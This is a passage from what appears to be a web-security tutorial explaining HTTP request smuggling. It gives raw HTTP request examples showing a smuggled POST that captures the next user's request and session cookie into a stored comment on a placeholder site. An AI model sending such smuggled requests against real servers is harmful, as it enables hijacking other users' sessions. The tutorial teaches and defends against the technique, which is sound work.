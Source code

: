 ```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

Now consider what would happen if you smuggle an equivalent request with an overly long `Content-Length` header and the `comment` parameter positioned at the end of the request as follows:

```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

The `Content-Length` header of the smuggled request indicates that the body will be 400 bytes long, but we've only sent 144 bytes. In this case, the back-end server will wait for the remaining 256 bytes before issuing the response, or else issue a timeout if this doesn't arrive quick enough. As a result, when another request is sent to the back-end server down the same connection, the first 256 bytes are effectively appended to the smuggled request as follows:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
... 
```

## Using HTTP request smuggling to exploit [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected)
